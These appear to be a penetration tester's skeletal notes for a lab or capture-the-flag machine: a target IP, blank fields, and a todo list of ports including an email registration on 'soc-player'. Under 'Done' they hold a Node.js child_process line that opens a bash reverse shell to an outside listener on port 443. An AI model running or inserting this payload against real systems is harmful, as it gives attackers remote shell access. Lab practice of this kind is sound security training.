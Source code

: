 # Notes

## Data 

IP: 10.129.166.131
OS: 
Hostname:
Domain:  / Domain SID:
Machine Purpose: 
Services:
Service Languages:
Users:
Credentials:

## Objectives

## Solution Inventory Map

### Todo 

- 9091 - we have a email registration on soc-player
- 33060,
- 3306

### Done


```
require('child_process').exec('bash -i >& /dev/tcp/192.168.1.2/443 0>&1');
```
